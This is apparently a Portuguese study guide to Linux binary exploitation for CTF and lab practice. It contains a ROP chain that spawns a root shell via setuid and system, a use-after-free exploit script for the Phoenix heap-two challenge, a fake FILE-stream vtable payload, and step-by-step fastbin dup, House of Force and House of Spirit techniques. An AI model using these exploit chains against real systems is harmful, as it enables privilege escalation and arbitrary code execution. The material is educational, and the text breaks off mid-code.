# >>> leak[:-1:] # Remover \n
# b'\xf0\xb5[\x16\xc8\x7f'
#
# >>> bytearray(leak[:-1:]).hex() # converter pra hexstring
# 'f0b55b16c87f'
#
# >>> bytearray(leak[:-1:])[::-1].hex() # Little Endian
# '7fc8165bb5f0'
#
# >>> int(bytearray(leak[:-1:])[::-1].hex(),16) # int
# 140497345295856
# Em seguida, leak - offset_puts ===> base_libc
log.success("Libc Leak: "+hex(libc.address))
##################################################
#
# vuln parte 2, o retorno
#
##################################################
io.recvline()
payload = b'A'*40 + flat(
# Privesc
rop.find_gadget(['pop rdi', 'ret']).address,
0,
libc.sym.setuid,
# System
rop.find_gadget(['pop rdi', 'ret']).address,
next(libc.search(b"/bin/sh\x00")),
libc.sym.system,
# Exit
rop.find_gadget(['pop rdi', 'ret']).address,
0,
libc.sym.exit
)
io.sendline(payload)
io.interactive()
Bruteforce (32 bits)
Isso e uma tradução / resumo desse post nickgregory: pivoting-around-memory
Todos os créditos vao para o autor original! :D
Intro
Existem 4 regiões importantes quando exploitando um programa:
- O binário
- Stack
- LibC
- Heap
Em resumo:


- Intro
- Bin -> LibC : GOT
- LibC <-> Heap : main_arena pointers
- Stack -> Bin e/ou LibC : Ler ret salvo
- LibC -> Stack : __libc_argv ou environ
- LibC -> ld -> Bin
Bin -> LibC : GOT
Se PIE == False ou se voce tem um leak da base do programa,
basta ler a GOT.
LibC <-> Heap : main_arena pointers
Se voce tem um read arbitrário ou read-after-free, voce pode
conseguir o endereço do libc se a arena for a main ...
normalmente como o next pointer nas freelists
Seguindo o outro sentido, se voce consegue ler no libc, basta
ler main_arena para conseguir um pointer para o heap
Stack -> Bin e/ou LibC : Ler ret salvo
Ler o valor do ret salvo pode te dar um pointer para uma função
do bin (derrotando PIE) ou para uma do LibC (ou de outra lib... o que pode ser util para a exploit chain)
LibC -> Stack : __libc_argv ou environ
Se voce tem um read no LibC, voce pode ler os símbolos:
__libc_argv ou environ. Eles apontam para valores bem altos
na stack, e muitas vezes existe uma diferença ALEATORIA
(ASLR) entre eles e o RSP.
De qualquer maneira, voce tem um leak de um pointer na stack, e
pode iterar ate encontrar o ret salvo que aponta para
__libc_start_main, para encontrar a parte importante da stack.
LibC -> ld -> Bin
Nessa tecnica e nescessario passar por um nivel de abstracao, dado
que o LibC nao tem pointers para Bin ! Assim:
LibC -> ld
O Linker Dinamico (ld) sempre esta na memoria e LibC sempre
contem pointers para ele: GOT do libc -> _dl_runtime_resolve
E na maior parte dos casos, ld esta em um offset constante em
relação ao LibC pois:
mmapusa valores alinhados aPAGE_SIZE- Normalmente,
LibCeldcostumam ser as 2 primeiras libs a serem carregadas e portanto "mmapadas"
ld -> Bin
O valor name dentro do struct _dl_rtld_libname aponta para
.interp, mais especificamente para uma string com o path do
linker, assim, calculando o offset dela dentro de .interp e
consequentemente leakando a base do Bin .
Heap
Setup
malloc_playground
git clone https://github.com/shellphish/how2heap.git
Pwndbg
-
gdb base:
sudo apt-get install gdb -
e os coisos de teste:
sudo apt-get install libc6-dbg libc6-dbg:i386 libc6-dbg:amd64caso voce tambem queira arm, mips, sei la,....
Villoc + DynamoRIO
- Github: DynamoRIO Ai voce baixa a versão mais recente pra sua plataforma.
- Github: Villoc e aqui as instruções para usar DynamoRIO
Mas resumindo, voce baixa o tar do DynamoRIO, extrai em /usr/bin ou local,... ou onde voce preferir
E executa export DYNAMORIO_HOME=/usr/bin/DynamoRIO/
Ai voce baixa sudo apt-get install cmake
Em seguida voce baixa villoc usando git e executa
git clone https://github.com/wapiflapi/villoc.git
cd villoc/tracers/dynamorio
./build.sh
Para usar usar basta substituir ./target pelo programa e bin64 por bin32 caso necessário!
$DYNAMORIO_HOME/bin64/drrun -c villoc_tracer villoc.trace -- ./target
villoc.py villoc.trace out.html
Se voce mudou o local do villoc, voce tambem precisara mudar villoc_tracer para /usr/bin/villoc/tracers/dynamorio/villoc_tracer (com o local certo)
eu recomendo alterar o seu .bashrc para facilitar :D
PATH="$PATH:/usr/bin/villoc"
export DYNAMORIO_HOME=/usr/bin/DynamoRIO/
villoc() {
$DYNAMORIO_HOME/bin64/drrun -c /usr/bin/villoc/tracers/dynamorio/villoc_tracer villoc.trace -- $1
villoc.py villoc.trace $1-villoc.html
firefox $1-villoc.html
}
Teoria
- 1996: Doug Lea - A Memory Allocator
- dhavalkapil: Heap Exploitation book
- SploitFUN: sbrk
- SploitFUN: Malloc
- GNU: malloc hooks
- man: __malloc_hook
- stackoverflow: Is there a way to redefine malloc at link time on Windows?
2ef5c8cae179b2d1dcd9c94fec99254acc18e1db6340048293591d98aee2cadf phoenix/amd64/heap-two
#!/usr/bin/python
from pwn import *
io = process("/opt/phoenix/amd64/heap-two")
def leak(report=True):
io.recvuntil("auth = ")
leak_auth = int(io.recvuntil(',').split(',')[0], 16)
io.recvuntil("service = ")
leak_serv = int(io.recvuntil(']\n').split("]")[0], 16)
if report:
log.info("[ auth = {}, service = {} ]".format(hex(leak_auth), hex(leak_serv)))
io.sendline(b"")
return (leak_auth, leak_serv)
def auth(name=b''):
io.recvuntil("]\n")
io.sendline(b"auth " + name)
def service(extra=b''):
io.recvuntil("]\n")
io.sendline(b"service" + extra)
def reset(extra=b''):
(leak_auth, leak_serv) = leak(False)
log.info("Called free on "+hex(leak_auth))
io.recvuntil("]\n")
io.sendline(b"reset" + extra)
def login(extra=b''):
io.recvuntil("]\n")
io.sendline(b"login" + extra)
log.success(io.recvuntil("\n"))
##################################################
auth(b"A"*32) # pointer auth
reset() # free, mas o pointer nao e destruido
service(b"B"*32) # Alloc overlap
leak()
login() # pointer usado after free, apontando para service
Coisas uteis pra atacar o heap mas que nao sao exatamente exclusivas aos ataques ao heap...
Teoria
Intro
No linux, para interagir com os IOs nao se usa o file descriptors (fd)
padrões diretamente, e sim por meio de file streams. Esses sao wrappers que
trazem funcionalidade adicional como por exemplo: IO buffers
Um programa sempre possui 3 file streams, mesmo que nao use input nem output,
esses sao os stdIOs: stdin, stdout e stderr. Isso quer dizer que essa
técnica funciona praticamente universalmente! :D
Porem com a evolução de C para C++ , as file streams receberam mais um upgrade:
agora elas possuem file stream + vtable. Essa vtable possui funcionalidades
que tornam IO mais fluido.
Por exemplo, quando o programa esta encerrando, para limpar os buffers, a
função overflow é chamada.
Porem como C++ depende muito em C, essas file streams melhoradas foram adicionados ao LibC, ie portanto elas estão sempre presente em todos programas que dependem de C...
Se nos apontarmos essa vtable para uma vtable falsa, podemos alterar o
overflow e quando o programa encerrar, ganhar execução de código!
Struct
As files streams sao definidas por:
pwndbg> p *_IO_list_all
$2 = {
file = {
_flags = -72540026,
_IO_read_ptr = 0x0,
_IO_read_end = 0x0,
_IO_read_base = 0x0,
_IO_write_base = 0x0,
_IO_write_ptr = 0x0,
_IO_write_end = 0x0,
_IO_buf_base = 0x0,
_IO_buf_end = 0x0,
_IO_save_base = 0x0,
_IO_backup_base = 0x0,
_IO_save_end = 0x0,
_markers = 0x0,
_chain = 0x7fd57b9fb680 <_IO_2_1_stdout_>,
_fileno = 2,
_flags2 = 0,
_old_offset = -1,
_cur_column = 0,
_vtable_offset = 0 '\000',
_shortbuf = "",
_lock = 0x7fd57b9fc7b0 <_IO_stdfile_2_lock>,
_offset = -1,
_codecvt = 0x0,
_wide_data = 0x7fd57b9fa760 <_IO_wide_data_2>,
_freeres_list = 0x0,
_freeres_buf = 0x0,
__pad5 = 0,
_mode = 0,
_unused2 = '\000' <repeats 19 times>
},
vtable = 0x7fd57b9f7420 <__GI__IO_file_jumps>
}
pwndbg> p *_IO_list_all.vtable
$3 = {
__dummy = 0,
__dummy2 = 0,
__finish = 0x7fd57b6c08a0 <_IO_new_file_finish>,
__overflow = 0x7fd57b6c12f0 <_IO_new_file_overflow>,
__underflow = 0x7fd57b6c0f70 <_IO_new_file_underflow>,
__uflow = 0x7fd57b6c22c0 <__GI__IO_default_uflow>,
__pbackfail = 0x7fd57b6c3620 <__GI__IO_default_pbackfail>,
__xsputn = 0x7fd57b6c04a0 <_IO_new_file_xsputn>,
__xsgetn = 0x7fd57b6c0070 <__GI__IO_file_xsgetn>,
__seekoff = 0x7fd57b6bf880 <_IO_new_file_seekoff>,
__seekpos = 0x7fd57b6c26a0 <_IO_default_seekpos>,
__setbuf = 0x7fd57b6bf160 <_IO_new_file_setbuf>,
__sync = 0x7fd57b6befe0 <_IO_new_file_sync>,
__doallocate = 0x7fd57b6b32e0 <__GI__IO_file_doallocate>,
__read = 0x7fd57b6c0480 <__GI__IO_file_read>,
__write = 0x7fd57b6bfe70 <_IO_new_file_write>,
__seek = 0x7fd57b6bf5b0 <__GI__IO_file_seek>,
__close = 0x7fd57b6bf150 <__GI__IO_file_close>,
__stat = 0x7fd57b6bfe60 <__GI__IO_file_stat>,
__showmanyc = 0x7fd57b6c37a0 <_IO_default_showmanyc>,
__imbue = 0x7fd57b6c37b0 <_IO_default_imbue>
Campos
Relevante para nos temos:
- chain
- Aponta para a proxima file stream assim, formando um singly linked list.
- Normalmente contendo os
std IOs
- Normalmente contendo os
- Nos podemos altera-lo e apontar para o heap, e no heap criar uma file stream falsa.
- Aponta para a proxima file stream assim, formando um singly linked list.
- Vtable
- overflow: podemos apontar para um one_gadget ou system
- Flags
- Quando forjamos uma file stream falsa e chamamos
overflow,flagssera passado por meio doRDI. - Assim podemos colocar
flags = /bin/sheoverflow = system
- Quando forjamos uma file stream falsa e chamamos
- Proteções: No futuro provavelmente vai ter mais, mas no mínimo voce deve esperar:
- write_ptr > write_base
- mode = 0
- obs: os primeiros 4 bytes de mode podem ser afetados por ASLR, tornando seu exploit funcional apenas 50% da vezes.
Offsets
-
File: 0x20
- flags: 0x0
- write_base: 0x20
- write_ptr: 0x28
- chain: 0x68
- mode: 0xc0
-
Vtable: 0xd0
- Overflow: 0x18 (em realacao a vtable)
Exploit
Então recapitulando, nos podemos forjar uma file stream falsa no heap ou stack,
e apontar _IO_list_all ou alguma das chains para ela.
Alem disso, podemos simplesmente alterar a vtable ou somente o overflow dentro da vtable de um dos std IOs.
Nos caso mais complexo, caso tenhamos um pointer para a nossa file stream falsa
podemos apontar _IO_list_all para pointer - 0x68, fazendo com que o segundo
item na linked list formada pelas chains seja a nossa file stream falsa.
A nossa file stream falsa precisa conter valores que passem pelas restrições mencionadas anteriormente e possua uma vtable falsa que aponte o seu overflow para system. Assim, quando o programa sair, nos conseguiremos uma shell.
A maior parte dos outros valores nao importam, portanto uma file stream falsa poderia ser definida por:
flat(
b"/bin/sh\0",# flags | 0x00
0,0,0,
1,# write base | 0x20
2,# write ptr | 0x28
'\0'*8*20,# mode ta no meio desses 0s
libc.sym.system,# overflow | 0xc8
fake_file_stream +0xc8 -0x18,# vtable | 0xd0
)
Nos tutoriais a seguir voce aprendera técnicas para atacar o alocador de memoria do libc: malloc
Porem, nao pense nao técnicas como: receitinhas que funcionam numa versão especifica do libc
Pense nelas como conceitos gerais e abstratos, que podem ser aplicados em outros alocadores de memoria... O malloc costuma ser o alvo mais comum para pesquisadores pois é o alocador que teve mais medidas de seguranca adicionadas.
obs: isso nao quer dizer que é o mais seguro, ok? ok!
Por exemplo, voce pode interpretar as diferentes técnicas como: o que acontece se eu alterar esse pedaço de meta-dados deixando-o grande? e pequeno? e zero? E aquele outro pedaço de meta-dados, e se eu mudar ele?.... etc etc
Teoria
O Heap é composto por chunks, alocados por meio de malloc() e liberados por meio de free().
Malloc recebe normalmente 1 parâmetro: tamanho! Porem esse valor a esse valor é
adicionado 0x08 e arredondado para cima. Por exemplo:
- malloc(0x18) -> 0x20 -> 0x20
- malloc(0x20) -> 0x28 -> 0x30
- malloc(1) -> 0x20 TAMANHO MINIMO!
Esse é o tamanho (size) do chunk!
Chunk
O chunk, quando alocado consiste em:
0000000000000000 size -> Lembrando que size inclui os metadados
0000000000000000 0000000000000000 <- dados do usuário
0000000000000000 0000000000000000
A visão do usuário e a visão interna de um chunk sao diferentes:
0000000000000000 0000000000000031 <- visão malloc
AAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBB <- visão usuário
CCCCCCCCCCCCCCCC EEEEEEEEEEEEEEEE
FFFFFFFFFFFFFFFF 0000000000000020 <- visão malloc
AAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBB <- visão usuário
CCCCCCCCCCCCCCCC
Nos vamos usar a visão do malloc daqui em diante! Portanto:
Chunk + 0x08 -> size e Chunk + 0x10 -> dados
O tamanho do chunk, por ser alinhado a 16 bytes, nas usa os últimos 4 bits do size, e assim eles sao usados pra flags:
- 1 - PREV_INUSE
1se ochunk adjacente anterioresta em uso (nao free)- Se o
chunk anterioresta livre (0), o nosso chunk rouba a ultima qword (a logo antes dosize) para armazenar osize do chunk anterior:PREV_SIZE
- 2 - IS_MMAPPED
1se o chunk foi adquirido viammap- Os outros bits sao ignorados pois:
- Nao possui chunks adjacente
- Nao faz parte de uma arena
- 4 - NON_MAIN_ARENA
0se esta namain_arena1se esta em qualquer outra thread
- 8 - Sem uso atualmente
Top
O chunk top fica na borda do heap:
0000000000000000 0000000000000031 <- chunk 1
AAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBB
CCCCCCCCCCCCCCCC EEEEEEEEEEEEEEEE
FFFFFFFFFFFFFFFF 0000000000000020 <- chunk 2
AAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBB
CCCCCCCCCCCCCCCC 0000000000003f41 <- top
O top chunk tem um tamanho enorme, e quando nos alocamos um novo chunk, estamos tirando uma fatia dele.
Se ele ficar pequeno de mais, pode ser extendido por meio da syscall sbrk (system
break)
O system break é um limite de quanta memoria nos podemos gastar, e é controlado pelo sistema operacional.
Alem disso, caso o chunk que passe do limite do top seja enorme (0x5000 por
exemplo) ao envés de gastar o top todo e precisar chamar srbk, basta alocar o
espaço desse chunk em outro canto usando mmap.
Arena
Uma arena é um agregador de metadados referentes a aquele heap, com cada thread tendo
uma. A da main thread é chamada de main_arena !
Entre os metadados armazenados nos temos, por exemplo:
- Endereço do top chunk
- Head das binlists
- Pointer para outras arenas
- Quanta memoria o sistema operacional disponibilizou
A main_arena é uma variável global, enquanto as outras sao segmentos de heap!
O comportamento do top descrito anteriormente somente ocorre na main_arena
Binlists
Quando um chunk nao é mais util, voce pode chamar free() passando o chunk como
parâmetro!
Quando um chunk é liberado, ele é colocado em uma binlist e a sua estrutura muda!
Binlists sao linked lists (single ou double | circular ou nao circular) que armazenam os free chunks, com cada chunk sendo um node na list.
Sao as head dessas binlists que sao armazenadas na main arena!
Elas sao classificadas pelo tamanho do chunk que armazenam:
- Fastbins: 0x20, 0x30,....., 0x80
- Unsorted bin: *
- smallbins
- largebins
Fastbins
Os fastbins sao usados para rapidamente alocar e liberar chunks.
Cada um deles contem uma singly-linked-list de chunks de mesmo tamanho.
O local aonde ficaria os dados, em um free chunk sera usado para metadados, e
no caso dos fastbins, por ser uma singly-linked-list somente um pointer (FD) para
o proximo chunk na lista.
Alem disso, essa lista é nao circular, isto é: o ultimo chunk tem FD=0 (NULL)
Como os fastbins nao sao consolidados com outros free chunks adjacentes, eles sempre
possuem PREV_INUSE=1
Então por exemplo um chunk do fastbin 0x30 contem:
0000000000000000 size=0x31
FD 0000000000000000
0000000000000000 0000000000000000
0000000000000000
Alem disso, os fastbins sao LIFO, assim como uma stack:
head: chunk 1 -> chunk 3 -> 0 (NULL)
free(chunk 4)
head: chunk 4 -> chunk 1 -> chunk 3 -> 0 (NULL)
malloc()
head: chunk 1 -> chunk 3 -> 0 (NULL)
free(chunk 5)
head: chunk 5 -> chunk 1 -> chunk 3 -> 0 (NULL)
free(chunk 10)
head: chunk 10 -> chunk 5 -> chunk 1 -> chunk 3 -> 0 (NULL)
malloc()
head: chunk 5 -> chunk 1 -> chunk 3 -> 0 (NULL)
Então por exemplo:
Código:
malloc() 6 vezes
free(Chunk 4)
free(Chunk 2)
free(Chunk 5)
free(Chunk 3)
Main Arena:
Fastbin 0x20 = & Chunk 3
Fastbin 0x20 : Chunk 3 -> Chunk 5 -> Chunk 2 -> Chunk 4 -> 0 (NULL)
Heap:
0000000000000000 0000000000000021 <- Chunk 1
0000000000000000 0000000000000000
0000000000000000 0000000000000021 <- Chunk 2 - Fastbin 0x20 [3]
& Chunk 4 0000000000000000
0000000000000000 0000000000000021 <- Chunk 3 - Fastbin 0x20 [4]
& Chunk 5 0000000000000000
0000000000000000 0000000000000021 <- Chunk 4 - Fastbin 0x20 [0]
00000 (NULL) 0000000000000000
0000000000000000 0000000000000021 <- Chunk 5 - Fastbin 0x20 [1]
& Chunk 2 0000000000000000
0000000000000000 0000000000000021 <- Chunk 6
0000000000000000 0000000000000000
0000000000000000 0000000000003d11 <- top
Unsorted bin
O unsorted bin armazena chunks de tamanho diversos, que serão distribuídos
(SORT) para uma small/large bin de tamanho apropriado
A Unsorted bin é uma doubly linked list (FD e BK) circular!
Na hora de procurar um chunk de tamanho adequado para um malloc(), começa-se
a busca pela tail e somente retorna um chunk de tamanho idêntico
(exact fit) ao pedido!
Conforme essa lista vai sendo atravessada, o processo de SORT vai ocorrer!
Quando o chunk de tamanho correto é encontrado, ele sofre um parcial unlink !
Remaindering
Caso a busca chegue no ultimo chunk do unsorted bins e ele seja maior do que
o pedido, ele sera dividido em 2 em um processo chamado remaindering:
_________
| |size|
| FD | BK |
| |
| |
| |
| |
| |
| |
| |
| |
|_________|
Divide o chunk em 2
_________
| |size|
| FD | BK |
| |
| |
| |
|_________|
| |
| |
| |
| |
|_________|
Retorna o primeiro
Coloca o segundo no unsortedbin e
o define como last_remainder
(pointer na main_arena que
aponta para o ultimo chunk
a ser dividido)
_________
| |size| <- Nosso chunk
| dados |
| AAAAAAA |
| |
| |
|_________|
| |size| <-- Unsorted Bins e last_remainder
| FD | BK |
| |
| |
|_________|
Small Bins
Os small bins sao similares ao unsorted bin, sendo
double-linked -lists (fd e bk) e circulares. Com essa lista
sendo FIFO(first-in first-out), os chunks entram/free pela
head e saem/malloc pela tail.
Cada small bins armazena somente um tamanho especifico de chunk,
de 0x20 a 0x3f0. Como voce pode perceber, existe uma
intercessão entre os tamanhos de fast e small. Nos podemos
migrar um fast chunk para o unsorted bins (e consequentemente para
o respectivo small bins usando malloc consolidate())
Large Bins
Os Large Bins sao:
- size >= 0x400
- Double linked lists (fd e bk)
- Listas Circulares
Existem 64, com apenas 63 sendo usados
- Large 0x400: 0x400, 0x410, 0x420 e 0x430
- Large 0x440: 0x440, 0x450, 0x460 e 0x470
- ...
Quanto maior o size, mais tamanhos de chunks ele armazena, em uma escala logarítmica
- Large 0x400: 0x400, 0x410, 0x420 e 0x430
- Large 0x5000: 0x5000, 0x5010, ... , 0x5ff0
- Large 0x80000: size >= 0x80000 (teoricamente infinito)
Os chunks ficam em ordem decrescente de tamanho em relação a head:
head:> 0x430 --- 0x420 --- 0x410 --- 0x400 <:tail
Para manter essa ordem de tamanho, sao usadas skiplists, explicadas depois.
Os primeiros chunks de cada size, alem de fd e bk, possuem fd_nextsize
efd_nextsize. Esses chunks que contem metadados adicionais sao chamados de
skipchunks
head: 0x430 0x430 0x420 0x420 0x410 0x400 0x400 :tail
...>| |>| |>| |>| |>| |>| |>| |>... fd
...<| skip |<| |<| skip |<| |<| skip |<| skip |<| |<... bk
^ | ^ | ^ | ^ |
.....___| |______________| |______________| |______| |___________.....
fd_nextsize fd_nextsize fd_nextsize
E mesma coisa com o bk_nextsize.
Com o fd_nextsize apontando para um tamanho MENOR
Com o bk_nextsize apontando para um tamanho MAIOR
Assim, os fd_nextsize e fd_nextsize formam uma
doubly linked circular list, contendo a primeira instancia de cada tamanho de
chunk presente naquele largebin. Essa "meta-lista" é a skiplist :D
Quando um chunk de tamanho novo é free(), ele é colocado na skiplist do
respectivo largebin. Em seguida, todos os chunks com aquele tamanho, serão
colocados logo apos o primeiro, sem interferir com a skiplist.
Mesma coisa com alocações, com o chunk retirado sendo o mais recente a entrar
naquela skiplist (LIFO). Portanto o skipchunk sera o ultimo a ser
alocado entre os chunks daquele tamanho. Assim, nao interferindo com a
skiplist.
Assim, garantindo a ordem de tamanhos dentro de um largebin :D
Obs: Quando um chunk NAO skipchunk é sort para um large bin, os seus bk_nextsize e fd_nextsize SAO NULLIFICADOS
Obs 2: o unlink nos largebins ocorre pelo fd, para evitar alocar o skipchunk. E alem disso eles sempre sofrem um unlink COMPLETO, pois o chunk pode vir do meio da lista! (safe unlink)
Outras operações
calloc( size ): igualmalloc()porem inicializa a região para NULL- Ineficiente porem mais seguro
realloc( chunk , size ): muda o tamanho de um chunk- Chama
free()no chunk,malloc()um novo chunk de tamanhosizee transfere os dados do chunk antigo para o novo - Se
size == 0, simplesmente atua como umfree(): muitos devs nao sabem disso- Sanitizam os
free()s corretamente, mas esquecem de sanitizar osrealloc()s
- Sanitizam os
- Chama
Fastbins Dup
Teoria
Se o chunk tiver nos fastbins (0x20 a 0x80), voce pode passar
pelas mitigações de double free.
Se:
- free chunk_A
- free chunk_A
As mitigações vao ser ativadas... porem se:
- free chunk_A
- free chunk_B
- free chunk_A
Voce consegue linkar o chunk_A duas vezes em um fastbin (double free).
Ataques
Alocar um chunk
Os fastbins sao linkados numa single-linked-list, portanto somente usa
o fd. Então, o fd fica na PRIMEIRA QWORD do parte dos dados.
- Double free
- free chunk_A
- free chunk_B
- free chunk_A
head : chunk_A -> Chunk_B -> chunk_A -> [...]
- chunk_A = malloc()
head : Chunk_B -> chunk_A -> [...]
- chunk_B = malloc()
head : chunk_A -> [...]
- edit(chunk_A, ALVO)
head : chunk_A -> ALVO
- malloc()
head : ALVO
O Proximo malloc ira alocar um chunk em ALVO
- alvo = malloc()
- edit(alvo, blablabla)
Nos temos um write arbitrário
Porem existe uma excesso, o ALVO + 0x8 precisa ser IGUAL AO TAMANHO DO FASTBIN
Assim, se for o fastbin 0x60, ALVO + 0x8 == 0x60
Para achar um chunk que se encaixa nesses critérios, voce pode usar
find_fake_fast no pwntools
Obs: __malloc_hook
Normalmente o malloc_hook so pode ser corrompido por um chunk de tamanho 7f,
assim, o seu fastbin dup tem que ser no fastbin 0x70!
Exec
Nos podemos, por exemplo, fazer o anterior com ALVO = __malloc_hook
- Double free
head : chunk_A -> Chunk_B -> chunk_A -> [...]
- chunk_A = malloc()
- chunk_B = malloc()
- edit(chunk_A, __malloc_hook)
- malloc()
- alvo = malloc()
- edit(alvo, one_gadget)
- malloc() ativar o hook
Escrever um valor na main_arena
O valor das heads fica armazenado na main_arena, assim invés de
colocar um endereço em alvo, podemos colocar um valor:
- Double free
head : chunk_A -> Chunk_B -> chunk_A -> [...]
- chunk_A = malloc()
- chunk_B = malloc()
head : chunk_A -> [...]
- edit(chunk_A, 0x123)
- malloc()
head : 0x123
Com esse valor podemos facilitar outros tipo de exploit, por exemplo:
Alocar um chunk na main_arena
Repetindo o anterior usando um Fastbin Dup no 0x60:
- Double free
head : chunk_A -> Chunk_B -> chunk_A -> [...]
- chunk_A = malloc()
- chunk_B = malloc()
head : chunk_A -> [...]
- edit(chunk_A, 0x50)
- malloc()
head : 0x50
Agora usar a técnica de alocar um chunk, usando um Fastbin Dup no 0x50:
- Double free
head : chunk_A -> Chunk_B -> chunk_A -> [...]
- chunk_A = malloc()
- chunk_B = malloc()
- edit(chunk_A, main_arena + 48 - 8)
- malloc()
- fake = malloc() Fake Chunk Na Main_Arena
Agora temos um chunk que nos permite dar write na main_arena
OBS : fastbin 0x60 dentro da main arena == main_arena + 48
alvo == main_arena + 48 - 8
alvo + 8 == head do 0x60 fastbin a.k.a. "0x50", passando o teste ja que o nosso fake chunk tem tamanho 0x50
OBS 2 : Esse endereço pode mudar dependendo da versão do malloc, calcula de novo ai
Exemplo malloc antigo
Agora, por exemplo, em versões antigas podemos alterar o top na main_arena
- top = malloc()
- edit(top, b'G'*48 + p64(libc.sym.__malloc_hook-0x24))
Pad + top
Agora o proximo malloc vai alocar proximo ao __malloc_hook
- malloc(b'H'*20 + p64(one_gadget)) Esse chunk ocupa o __malloc_hook
House of Force
Teoria
A técnica da House Of Force consiste em usar um heap overflow para alterar o tamanho do top_chunk para o valor máximo ( 0xffffffffffffffff ) ... permitindo que um malloc enorme seja alocado pelo top_chunk!
Esse chunk enorme ira cobrir a distancia entre o alvo e o heap atual!
______________________________
| |
| Resto do heap blablabla |
|______________________________|
| | Size: 0x20 | <- malloc(0x18)
| AAAAAAAAAAAAAAAAAAAAAAA | <- write("A"*0x20)
|______________________________|
| |
| Top size: 0x3c0 | <- Nao teve overflow
|______________________________|
Agora, vamos usar o overflow para deixar o top_chunk.size gigante
______________________________
| |
| Resto do heap blablabla |
|______________________________|
| | Size: 0x20 | <- malloc(0x18)
| AAAAAAAAAAAAAAAAAAAAAAA | <- write("A"*0x20 + p64(0xffffffffffffffff))
|______________________________|
| |
| Top size: 0xffffffffffffffff |
|______________________________|
Agora, vamos alocar um chunk gigante!
Vamos supor que o heap começa em 0x40000 e o alvo esta em 0x60704
Alem disso, vamos supor que o top_size esta no endereço 0x400d0
Assim, queremos alocar um chunk que pare um pouco antes do alvo,
esse chunk servira somente para "andar ate la"
Assim, quando alocarmos um chunk, ele vai ocupar a mesma posição que o alvo
>>> hex((0x60704 - 0x20) - 0x400d0)
'0x20614'
______________________________ ___ 0x40000
| |
| Resto do heap blablabla |
|______________________________|
| | Size: 0x20 |
| AAAAAAAAAAAAAAAAAAAAAAA |
|______________________________| ___ 0x400d0 -> &top_size ficava aqui
| |
| NAO ESCREVER NESSE | <- malloc(0x20614)
| CHUNK, ELE PODE ESTAR |
| PASSANDO POR MEMORIA |
| READ_ONLY E CAUSAR SEGFAULT |
| |
... ... ... ... ... ... ...
|______________________________| ___ 0x606e4 -> alvo - 0x20
| |
| Top size: 0xfffffffffffdf9eb |
|______________________________|
Agora, um ultimo chunk para cobrir alvo
______________________________ ___ 0x40000
| |
| Resto do heap blablabla |
|______________________________|
| | Size: 0x20 |
| AAAAAAAAAAAAAAAAAAAAAAA |
|______________________________| ___ 0x400d0 -> &top_size ficava aqui
| |
| NAO ESCREVER NESSE |
| CHUNK, ELE PODE ESTAR |
| PASSANDO POR MEMORIA |
| READ_ONLY E CAUSAR SEGFAULT |
| |
... ... ... ... ... ... ...
|______________________________| ___ 0x606e4
| | Size: 0x30 |
| | <- malloc(0x28)
| |
| | ___ 0x60704 -> alvo
| |
|______________________________| ___ 0x60714
| |
| Top size: 0xfffffffffffdf9cb |
|______________________________|
Um edit no chunk pode alterar o alvo!
def Resumo():
Chunk_1 -> *top_size = 0xfff...
Chunk_2 -> gigante, usado para atravessar a distancia
Chunk_3 -> Pode alterar o alvo
Na pratica, o Chunk_3 talvez tenha um tamanho que
voce nao controle! Ou, alguma outra limitação assim!
A situação ideal ocorre quando o inicio da user_data do Chunk_3
coincide com o endereço do alvo! pois voce nao precisa usar
padding para alcançar o alvo e portanto, nao arrisca
danificar outras partes da memoria!
Então quando estiver praticando, vale a pena ficar brincando com o tamanho do
Chunk_2 para acertar a mira direitinho :D
VA Wrap-Around
No caso anterior, o endereço do alvo era maior que o do heap!
heap: 0x40000 <------> alvo: 0x60704
E caso seja ao contrario? Vamos precisar dar uma volta no VA space!
VA = Virtual Address = Endereço Virtual = 0x0000000000000000 ate 0xffffffffffffffff
Os endereços no VA space dao um loop, assim:
Se voce esta em 0xffffffffffffff45 e anda para frente, voce vai terminar em 0x0000000000000000a3 ! Dando uma volta no VA space!
Nos podemos fazer o mesmo com o Chunk_2 ! Permitindo que o Chunk_3 fique
em um endereço anterior ao heap! :D
Para encontrar o tamanho do Chunk_2 que possibilite isso, podemos usar a função:
def wrap(A,B):
return (0xffffffffffffffff - A)+B
# || tamanho ate || O quanto andar depois
# || O fim do VA space || de dar o loop
# Com A = base_do_heap + quantidade_gasta = &top_size
# B = alvo - 0x20 (tamanho do Chunk_3)
Limitações
- Requer um heap leak
- Versão Glibc < 2.29
Fontes e Materiais para praticar
- shellphish/how2heap
- La também tem o link pra alguns ctfs que usam house of force!
- O curso de Heap Exploits do Max Kamper
House of Spirit
Teoria
House Of Spirit é uma tecnica que nos permite dar free um chunk falso que
fica por exemplo, no heap, stack*, data,... ou qualquer outro lugar
A tecnica é parecida com um fastbin dup, porem menos versátil e mais difícil de executar, porem nos permite usar vulnerabilidades fora do heap (como um stack bof) e traze-las para o contexto do heap.
Assim, nos criamos um chunk falso e chamamos free() nele!
Um exemplo da vida real seria por exemplo, por meio de um stack bof alterar um pointer para o heap, ja que eles sao muito comuns, e apontar para o chunk falso.
Entre as restrições no chunk falso temos:
- tamanho
- Voce devera passar pelas mitigações ja pre-existentes para aquele tipo de chunk
fastbinsé o mais fácilsmalltem mais mitigações porem pode ser usado junto com remaindering para criar mais um chunk logo em frente do chunk falso- Eu nao vejo pq usar
largepoderia ser vantajoso, mas se quiser testar
- flags
- Para precisarmos passar pelo menor numero de mitigações possível, temos:
- PREV_USE = 1
- IS_MMAPED = 0
- NON_MAIN = 0
- bit sem uso = 0
- Endereço
- Pointer alinhado a 16 bytes
- smallbins: endereço <= heap + top_size
Alem disso, malloc ira checar se o tamanho do proximo chunk é valido :
&chunk + chunk.size + 8
0000000000000000 0000000000000031 <--| fake
0000000000000000 0000000000000000 |
0000000000000000 0000000000000000 ___|
0000000000000000 TAMANHO VALIDO < &fake + fake.size + 8 = tamanho valido
0000000000000000 0000000000000000
Então voce pode simplesmente lotar aquela area com fenceposts ou qualquer valor razoável, sei la, 0x21... nao importa muito
Fastbins
Fazer a HoS é mais fácil com os fastbins, e voce so deve usar outro tipo caso seja vital voce usar remaindering (ou outra capacidade de chunk maiores) ou caso voce nao possa controlar o tamanho... Caso contrario use um fastbin...
Nos poderíamos por exemplo, num programa que armazena nosso username no
data, nos vamos usa-lo para armazenar o chunk falso, assim definindo-o como:
username = flat(
0x31,
